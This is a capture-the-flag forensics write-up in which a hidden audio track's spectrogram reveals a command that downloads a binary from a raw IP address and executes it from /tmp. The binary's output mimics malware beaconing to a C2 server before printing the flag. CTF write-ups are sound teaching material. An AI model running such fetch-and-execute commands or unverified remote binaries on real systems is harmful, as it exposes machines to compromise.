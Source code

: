## Sorry, you're NOT a sigma!
The lion says solve this challenge. You seem to have a good **track** record at doing so.

SHA256: 66591540e5dd8e925128513d1ca0810118350c822429e4e8c1d1a98b7d8924f3

## Solution

Because the word track is bolded, I decide to take a look at the files audio tracks by running `ffmpeg -i lion.mp4`, which showed me this:

```bash
  Stream #0:1(und): Audio: aac (LC) (mp4a / 0x6134706D), 48000 Hz, stereo, fltp, 128 kb/s (default)
    Metadata:
      handler_name    : SoundHandler
      vendor_id       : [0][0][0][0]
  Stream #0:2(und): Audio: aac (LC) (mp4a / 0x6134706D), 22050 Hz, stereo, fltp, 121 kb/s
    Metadata:
      handler_name    : SoundHandler
      vendor_id       : [0][0][0][0]
```

This means that there are two audio files. I extract the second one using `ffmpeg -i lion.mp4 -map 0:a:1 -acodec pcm_s16le audio2.wav`. Listening to audio2.wav, it sounds like weird distorted alien noises, which prompts me to open the file in Audacity. 

Opening audio2.wav in Audacity and viewing as Spectrogram showed me this:
![spectrogram](spectrogram.png)

```bash
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
````

Running this command in my terminal gives me the flag:

```c
dev@dev:~$ curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
[*] Initializing beacon...
[*] Beacon attempt 1: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 2: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 3: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 4: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 5: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 6: phoning home...
[-] No response from C2 server.
[*] Beacon attempt 7: phoning home...
[+] Beacon successfully reached C2 on attempt 7.
[*] Downloading payload...
[*] Decrypting response...
[+] Flag received:
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

FLAG: `CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}`
